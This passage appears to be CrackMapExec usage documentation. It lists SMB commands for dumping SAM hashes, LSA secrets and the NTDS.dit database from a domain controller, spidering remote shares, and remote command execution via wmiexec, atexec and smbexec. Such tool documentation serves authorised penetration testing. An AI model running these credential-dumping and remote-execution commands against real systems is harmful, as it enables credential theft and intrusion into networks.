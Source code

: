 #### Dump SAM hashes using methods from secretsdump.py 
```
#~ cme smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE' --sam
```

#### Dump LSA secrets using methods from secretsdump.py 
```
#~ cme smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE' --lsa
```

#### Dump the NTDS.dit from target DC using methods from secretsdump.py   
	2 methods are available:   
	(default) 	drsuapi -  Uses drsuapi RPC interface create a handle, trigger replication, and combined with   
							additional drsuapi calls to convert the resultant linked-lists into readable format  
				vss - Uses the Volume Shadow copy Service  
  
```
#~ cme smb 192.168.1.100 -u UserNAme -p 'PASSWORDHERE' --ntds
#~ cme smb 192.168.1.100 -u UserNAme -p 'PASSWORDHERE' --ntds vss
```

#### Dump the NTDS.dit password history from target DC using methods from secretsdump.py   
```
#~ cme smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE' --ntds-history
```
  
#### Show the pwdLastSet attribute for each NTDS.dit account   
```
#~ cme smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE' --ntds-pwdLastSet
```

#### Spidering Shares
Options for spidering shares of remote systems.

Example searching a C-drive for files with 'txt' in the name. Notice the '$' character has to be escaped. (example shown can be used as-is in a kali linux terminal)
```
#~ cme SMB <IP> -u USER -p PASSWORD --spider C\$ --pattern txt
```
***

### Command Execution
Options for executing commands on remote systems.

#### Execution Methods

CME has three different command execution methods:

- ```wmiexec``` executes commands via WMI
- ```atexec``` executes commands by scheduling a task with windows task scheduler
- ```smbexec``` executes commands by creating and running a service
